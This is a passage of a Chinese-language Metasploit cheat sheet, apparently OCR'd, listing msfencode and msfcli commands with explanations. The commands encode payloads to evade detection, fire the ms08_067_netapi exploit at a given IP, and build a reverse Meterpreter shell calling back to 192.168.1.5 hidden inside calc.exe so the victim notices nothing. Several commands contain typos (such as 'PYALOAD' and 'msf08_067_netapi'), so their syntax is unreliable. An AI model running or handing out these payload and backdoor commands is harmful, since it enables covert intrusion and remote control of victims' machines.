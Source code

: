 导出成以%u编码方式的javaScript语言字符串。

 

4.MSFencode命令

msfencode -h

列出MSFencode的帮助信息。

msfencode -l

列出所有可用的编码器。

msfencode -t（c，eif.exe，java，js_be，perl，raw，ruby，vba，vbs，loop-vbs，asp，war，macho）

显示编码缓冲区的格式。

msfencode -i payload.raw -o encoded_payload,exe -e x86/shikata_ga_nai -c 5 -t exe

使用 shikata_nai编码器对payload.raw文件进行5次编码，然后导出一个名为encoded_payload.exe的文件。

msfpayload windows/meterpreter/bind_tcp LPORT=443 R|msfencode -e x86/_countdown -c 5 -t raw|msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded_payload.exe

创建一个经过多种编码格式嵌套编码的攻击载荷。

msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c

创建一个纯字母 数字的shellcode，由ESI寄存器指向shellcode，以C语言格式输出。

 

5.MSFcli命令。

msfcli | grep exploit

仅列出渗透攻击模块。

msfcli | grep exploit/windows

仅列出与Windows相关的渗透攻击模块。

msfcli exploit/windows/smb/msf08_067_netapi PYALOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E

对172.16.32.142 发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听。

 

6.Metasploit高级忍术

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R|msfencode -x calc.exe -k -o payload.exe -c x86/shikata_ga_nai -c 7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5 主机的443端口，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe。

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R|msfencode -x calc.exe -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe

创建一个反弹式的meterpreter攻击载荷，回连到192.168.1.5主机的443端口，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会再目标主机上弹出任何信息。这种配置非常有用，当你通过浏览器漏洞控制了远程主机，并不想让计算机程序打开呈现在目标用户面前，同样，最后生成用.shikata_ga_nai 编码的攻击载荷程序payload.exe。
